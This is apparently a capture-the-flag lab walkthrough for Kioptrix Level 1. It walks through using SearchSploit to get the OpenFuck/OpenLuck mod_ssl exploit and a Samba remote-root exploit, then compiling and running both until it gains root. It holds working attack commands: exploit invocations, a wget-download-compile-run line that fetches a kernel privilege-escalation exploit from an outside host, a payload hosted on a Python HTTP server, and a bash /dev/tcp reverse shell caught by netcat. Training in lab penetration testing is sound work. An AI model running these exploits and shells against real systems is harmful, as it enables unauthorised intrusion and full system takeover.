

.. _Kioptrix Lv1 Exploitation:

Exploitation
============

.. index::
   single: Metasploit
   single: SearchSploit

+-------------+----------------------------+
|**Reference**|:ref:`Metasploit`           |
|             |                            |
|             |:ref:`Python File Transfers`|
|             |                            |
|             |:ref:`SearchSploit`         |
+-------------+----------------------------+

.. _Kioptrix Lv1 SearchSploit:

Gathering Exploits with SearchSploit
------------------------------------

Now that we've discovered a couple vulnerabilities in our target, we should prioritize them according to which we think will be the most likely to succeed (and the easiest to pull off). With that in mind, let's examine our two candidates.

First up, we have the `OpenFuck` exploits for `Apache`. There are three different `EDB-ID` entries listed. We can examine them with `SearchSploit`'s ``-x`` flag, followed by their ID number. The second exploit appears to be an improvement on the first, and the third an improvement on the second, so we'll put the first two aside and focus on the last exploit, with ID 47080. Looking through the source code, this version appears to have options for our target's operating system and `Apache` versions:

.. code-block:: c

    [...]
    {"RedHat Linux 7.2 (apache-1.3.20-16)1",0x080994e5},
    {"RedHat Linux 7.2 (apache-1.3.20-16)2",0x080994d4},
    [...]

We'll create a copy of this exploit using `SearchSploit`'s ``-m`` flag:

.. code-block:: none

    kali@kali:~$ searchsploit -m 47080
      Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
          URL: https://www.exploit-db.com/exploits/47080
         Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: /home/kali/47080.c

Examining the `Samba` exploit, we can likewise see that the target OS is listed in the exploit's available targets:

.. code-block:: c

    [...]
    { "samba-2.2.x - Redhat 7.x           ", 0xbffff310, linux_bindcode, 0 },
    [...]

We'll copy this exploit as well:

.. code-block:: none

    kali@kali:~$ searchsploit -m 10
      Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
          URL: https://www.exploit-db.com/exploits/10
         Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: /home/kali/10.c

Next, we'll attempt to compile both exploits. To keep track of which is which, we'll rename them appropriately:

.. code-block:: none

    kali@kali:~$ mv 47080.c OpenFuck.c
    kali@kali:~$ mv 10.c samba_exploit.c

Next, we'll compile each according to the instructions outlined within each file.

Compiling the mod_ssl Exploit
------------------------------
The `mod_ssl` exploit provides the following command line for compilation, but `Kali` responds with an error:

.. code-block:: none

    kali@kali:~$ gcc -o OpenFuck OpenFuck.c -lcrypto
    OpenFuck.c:21:10: fatal error: openssl/ssl.h: No such file or directory
       21 | #include <openssl/ssl.h>
          |          ^~~~~~~~~~~~~~~
    compilation terminated.

It appears we're missing the ``openssl/ssl.h`` file, which is necessary for compilation. Using `Google`, we can see if anyone else has had any luck compiling this exploit by searching for ``compile openfuck.c kali``.

   Search results for ``compile openfuck.c kali``

The first link directs us to a `Medium` article that has a series of steps for compiling the exploit. But the second link looks even more appealing: it's an updated version of the `OpenFuck` exploit created in 2018. This seems promising! Let's check it out.

Clicking the link takes us to a `GitHub repository <https://github.com/heltonWernik/OpenLuck>`_ containing the ``OpenFuck.c`` source code and a ``README.md`` file containing compilation instructions. First, we should download the ``OpenFuck.c`` file. To do this, click the ``OpenFuck.c`` link, then click the **Raw** button on the top right of the source-code listing. This will provide us with the plain-text version of the code, which we can copy-and-paste into an ``OpenLuck.c`` file on `Kali`.

After saving the updated ``OpenLuck.c`` source code, we'll return to the README page and follow the directions for compiling the software. First, it says to install the `libssl-dev` software using `apt-get`:

.. code-block:: none

    kali@kali:~$ sudo apt-get install libssl-dev
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    [...]
    Preparing to unpack .../libssl-dev_1.1.1d-2_amd64.deb ...
    Unpacking libssl-dev:amd64 (1.1.1d-2) ...
    Setting up libssl-dev:amd64 (1.1.1d-2) ...

.. note::

    If you're using a secondary `host-only` network to communicate between `Kali` and the target system, you might need to switch to the primary network interface in order to allow `Kali` to access the internet and install this software. Once you're done, you can switch back to the secondary network in order to continue targeting `Kioptrix`.

With the appropriate library installed, compile the `OpenLuck` binary. If everything goes correctly, you should see no output, and you'll find the `OpenLuck` executable in your current directory:

.. code-block:: none

    kali@kali:~$ gcc -o OpenLuck OpenLuck.c -lcrypto
    kali@kali:~$ ls -lah OpenLuck
    -rwxr-xr-x 1 kali kali 43K Apr  7 13:41 OpenLuck

Great! The exploit has been compiled. On to the next...

Compiling the Samba Exploit
---------------------------
Reading the source code of the ``samba_exploit.c`` file, we can see no special compilation instructions, so let's just compile it with a straightforward `gcc` command. We'll use the ``-o`` flag, followed by a filename, in order to name the resulting executable:

.. code-block:: none

    kali@kali:~$ gcc samba_exploit.c -o samba_exploit
    kali@kali:~$ ls -lah samba_exploit
    -rwxr-xr-x 1 kali kali 41K Apr  7 13:46 samba_exploit

As before, if compilation is successful, we should see no output from the `gcc` command, and the ``samba_exploit`` executable should be in the same directory.

Finally! It's time to test our exploits. Since we were able to compile both exploits, we'll just test them in alphabetical order: `Apache` first, then `Samba`.

.. warning::

    Before using any public exploits downloaded from the internet, it's always a good idea to read the exploit's source code. This is important for a number of reasons:

    * The exploit might require modification in order to work on your system or against your target.
    * By reading the source, you can gain a better understanding of how the exploit works.
    * Hackers have been known to release malicious "exploit" code which, when compiled and executed, actually harms the user's computer instead of working as expected. This has been done as an attack against "script kiddies" who download and run exploits without taking the time to understand how they work.

    By reading the source code of each exploit before you compile and execute it, you can not only improve your hacking knowledge and ensure that the code runs smoothly, but you can also protect yourself against malicious code.

Exploiting Apache's mod_ssl
---------------------------
To see how to run the ``OpenLuck`` exploit, we'll just execute the file with no command-line arguments:

.. code-block:: none

    kali@kali:~$ ./OpenLuck

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    : Usage: ./OpenLuck target box [port] [-c N]

      target - supported box eg: 0x00
      box - hostname or IP address
      port - port for ssl connection
      -c open N connections. (use range 40-50 if u dont know)

      Supported OffSet:
    [...]
            0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
            0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
    [...]

    Fuck to all guys who like use lamah ddos. Read SRC to have no surprise

According to the instructions, we must define the target of the exploit using a hexadecimal-formatted offset code, as well as the IP of the target. The port and ``-c N`` settings are optional, but we should at least specify the port to be as specific as possible.

Looking through the list of supported offsets (which I've pruned for brevity), we can see two possible options for `Red Hat Linux` version 7.2 with `Apache` version 1.3.20. Reading through the instructions provided on the `OpenLuck GitHub` page, it is advised to use the ``-c 40`` option to specify a count value of 40. Let's run the command, targeting `Kioptrix` on port 443:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6a 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
    * #hackarena  irc.brasnet.org                                     *
    * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
    * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
    * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
    *******************************************************************

    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f1c70
    Ready to send shellcode
    Spawning shell...
    Good Bye!

Curious... The exploit didn't work. Let's repeat the procedure, using the second offset (``0x6b``) and see if it works:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6b 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f8068
    Ready to send shellcode
    Spawning shell...
    bash: no job control in this shell
    bash-2.05$
    exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
    --18:39:24--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to dl.packetstormsecurity.net:80...
    dl.packetstormsecurity.net: Host not found.
    gcc: ptrace-kmod.c: No such file or directory
    gcc: No input files
    rm: cannot remove `ptrace-kmod.c': No such file or directory
    bash: ./p: No such file or directory
    bash-2.05$
    bash-2.05$

We got a shell! But what's all this about ``dl.packetstormsecurity.net``? Looking back at the source code to the exploit, we will discover the following lines:

.. code-block:: c

    [...]
    #define COMMAND1 "TERM=xterm; export TERM=xterm; exec bash -i\n"
    #define COMMAND2 "unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
    [...]

Curious! From the looks of it, upon receiving a shell, the exploit attempts to execute these two commands on the target system. The first seems normal enough, but the second looks like it's reaching out to ``dl.packetstormsecurity.net`` to download and compile additional code. While this might work fine on a target connected to the Internet, I've configured `Kioptrix` to use a `host-only` network, which prevents it from being able to communicate with the outside world. Therefore, when it attempts to download this file, the download will fail, and the exploit will not run.

Despite this error, we've still got a shell. To which account do we have access?

.. code-block:: none

    bash-2.05$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache)

We're logged in as the ``apache`` user. From here, we would typically need to find a method of privilege escalation in order to gain access to the ``root`` account... But perhaps this is what the `OpenLuck` script was trying to do by downloading that file from `packetstormsecurity.net`?

Let's fix this script and see if we can grant `OpenLuck` access to this ``ptrace-kmod.c`` file. First, we'll download the ``ptrace-kmod.c`` file from `the specified URL <http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c>`_, making sure to inspect this code to see what it's doing. As suspected, it appears to be a `Linux` kernel privilege-escalation exploit. Copy the contents of this file, then paste them into a file called ``ptrace-kmod.c`` on your `Kali` system. Next, we'll need to modify the ``OpenLuck.c`` source code to download this file from our `Kali` host. Change the code as follows, injecting your own IP into ``COMMAND2``:

.. code-block:: c

    [...]
    #define COMMAND1 "TERM=xterm; export TERM=xterm; exec bash -i\n"
    #define COMMAND2 "unset HISTFILE; cd /tmp; wget http://10.1.1.100/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
    [...]

Next, re-compile the software as before:

.. code-block:: none

    kali@kali:~$ gcc -o OpenLuck OpenLuck.c -lcrypto

With this complete, we only have one more step to accomplish before we can run the exploit against the target once more: we need to host the ``ptrace-kmod.c`` file with an HTTP server so that the target system can download it according to the command we provided. To accomplish this, open a new terminal in the same directory where the ``ptrace-kmod.c`` file is stored, and use `Python 3` to launch an HTTP server:

.. _Koptrix Lv1 Python HTTP Server:

.. code-block:: none

    kali@kali:~$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

With this `Python 3` HTTP server in-place, let's run the exploit one more time:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6b 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f8068
    Ready to send shellcode
    Spawning shell...
    bash: no job control in this shell
    bash-2.05$
     p ptrace-kmod.c; rm ptrace-kmod.c; ./p; http://10.1.1.100/ptrace-kmod.c; gcc -o
    --18:46:07--  http://10.1.1.100/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to 10.1.1.100:80... connected!
    HTTP request sent, awaiting response... 200 OK
    Length: 3,737 [text/plain]

        0K ...                                                   100% @   3.56 MB/s

    18:46:07 (3.56 MB/s) - `ptrace-kmod.c' saved [3737/3737]

    [+] Attached to 1411
    [+] Waiting for signal
    [+] Signal caught
    [+] Shellcode placed at 0x4001189d
    [+] Now wait for suid shell...

Bingo! Checking on our `Python 3` HTTP server, we can see that the target downloaded the ``ptrace-kmod.c`` file:

.. code-block:: none

    kali@kali:~$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.1.1.102 - - [07/Apr/2020 14:45:52] "GET /ptrace-kmod.c HTTP/1.0" 200 -

To top it off, it appears as if the secondary exploit was successfully compiled and executed on the target. There's no visible command prompt, but perhaps if we execute the `id` and `whoami` commands, we can figure out whether the privilege escalation attack was successful:

.. code-block:: none

    id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
    whoami
    root

Excellent! We've got a shell as the ``root`` user! We have successfully completed this challenge. But what about that `Samba` exploit? Let's see if we can get it working, too. After all, if this were a real penetration test, the goal wouldn't just be to "get root," but to reveal and demonstrate all of the vulnerabilities on the system.

Exploiting Samba
----------------
Let's run the `Samba` exploit without any command-line arguments, just to see how it works:

.. code-block:: none

    kali@kali:~$ ./samba_exploit
    samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
    --------------------------------------------------------------
    Usage: ./samba_exploit [-bBcCdfprsStv] [host]

    -b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
    -B <step>       bruteforce steps (default = 300)
    -c <ip address> connectback ip address
    -C <max childs> max childs for scan/bruteforce mode (default = 40)
    -d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
    -f              force
    -p <port>       port to attack (default = 139)
    -r <ret>        return address
    -s              scan mode (random)
    -S <network>    scan mode
    -t <type>       presets (0 for a list)
    -v              verbose mode

From the looks of it, we'll need to specify the platform at a minimum, using the ``-b`` flag. Let's give it a shot:

.. code-block:: none

    kali@kali:~$ ./samba_exploit -b 0 10.1.1.102
    samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
    --------------------------------------------------------------
    + Bruteforce mode. (Linux)
    + Host is running samba.
    + Worked!
    --------------------------------------------------------------
    *** JE MOET JE MUIL HOUWE
    Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
    uid=0(root) gid=0(root) groups=99(nobody)

The exploit worked quickly and effectively, and immediately granted root privileges! Can we get a better shell with `bash`? Let's give it a shot. First, we'll start a `netcat` listener on port 443:

.. code-block:: none

    kali@kali:~$ sudo nc -vnlp 443
    listening on [any] 443 ...

Next, execute the following command in the `Samba` exploit terminal:

.. code-block:: none

    nohup bash -i >& /dev/tcp/10.1.1.100/443 0>&1 &

By using the `nohup` command, we can ensure that our new reverse shell will remain open, even if the original `Samba` exploit shell should be closed. Returning to `netcat`, we've got a `bash` shell:

.. code-block:: none

    kali@kali:~$ sudo nc -vnlp 443
    listening on [any] 443 ...
    connect to [10.1.1.100] from (UNKNOWN) [10.1.1.102] 32773
    bash: no job control in this shell
    stty: standard input: Invalid argument
    [root@kioptrix tmp]#

Well done! We've successfully rooted this system via two different exploits.
